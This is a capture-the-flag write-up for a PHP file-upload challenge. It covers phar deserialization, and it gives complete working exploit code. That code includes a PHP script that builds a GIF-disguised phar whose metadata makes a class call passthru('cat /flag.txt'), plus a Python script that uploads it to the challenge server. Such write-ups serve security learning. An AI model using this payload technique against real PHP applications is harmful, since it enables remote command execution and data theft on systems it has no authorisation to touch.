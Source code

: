 # solution

Firstly, i look around all source codes and the tiltle of the challenge and i think this vulnerability related to "phar wrapper" and two things we need to know.

```
if (move_uploaded_file($tmpFile, $targetFile)) {
            if (isset($_POST['emergent']))
                $targetFile = 'phar://' . $targetFile;
```

we need parameter **emergent** to access **phar://** url where the vulnerability exists. And in that source code its require supermarket.php.

```
<?php
function goodbye($customer) {
    echo "Good bye, $customer!\n";
}

class Supermarket {
    public $greet = 'goodbye';
    public $customer = 'dream';
    function __destruct() {
        call_user_func($this->greet, $this->customer);
    }
}
?>
```

You see when the server deserialization it will call **\_\_destruct()** and run the funtion **call_user_func()** it will like "Good bye, dream". Hmm can we run sth like "cat flag.txt". After a long time searching and find sth useful, here is how to solve this challenge. Firstly you need to creat a php file "exploit.php"

```
<?php
class Supermarket {
    public $greet = 'goodbye';
    public $customer = 'dream';
    function __destruct() {
        call_user_func($this->greet, $this->customer);
    }
}

$phar = new Phar('payload.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'test');
$phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');

$object = new Supermarket();
$object->greet = "passthru";
$object->customer = "cat /flag.txt";

$phar->setMetadata($object);
$phar->stopBuffering();
?>
```

i will summarize the meaning of this code:

1. Define "supermarket" class
2. Create the Phar file:

- $phar = new Phar('payload.phar');: Creates a Phar object linked to the file payload.phar.
- $phar->startBuffering();: Starts buffering to create the Phar file.
- $phar->addFromString('test.txt', 'test');: Adds a file named test.txt to the Phar with the content test.
- $phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');: Sets the stub for the Phar file, meaning the first part of the Phar file will contain the string GIF89a to mimic a GIF image file, followed by <?php __HALT_COMPILER();?> to stop the PHP code execution.

3. create and set up a malicious object:

- $object = new Supermarket();: Creates an object of the Supermarket class.
- $object->greet = "passthru";: Sets $greet to "passthru", a PHP function used to execute system commands.
- $object->customer = "cat /flag.txt";: Sets $customer to "cat /flag.txt", a system command to read the content of the flag.txt file.

4. Add the object to the Phar and finish:

- $phar->setMetadata($object);: Assigns the $object as the metadata of the Phar file. This metadata will be unserialized when the Phar is opened.
- $phar->stopBuffering();: Finalizes the creation of the Phar file and writes it to the disk. <br>

run this php code by:

```
php --define phar.readonly=0 exploit.php
```

it creates a .phar file with content:
![alt text](image.png)

When you upload this file (i will talk how to do that below), the server will deserialization this content and greet become "passthru" and customer become "cat /flag.txt" and run "call_user_func" <br>
Next you change the name of phar from "payload.phar" become "payload.gif" (rename in normal way, like you rename a file).
Finally, create a python file

```
import requests

url = 'http://host3.dreamhack.games:16442'

data = {
    'submit': 1,
    'emergent': 1,
}

with open('payload.gif', 'rb') as f:
    r = requests.post(url, files={'fileToUpload': f}, data=data)

print(r.text)
```

Run this paython and you have the flag.

# preferences:

https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization

And a friend i meet in discord, thank you very much buddy.
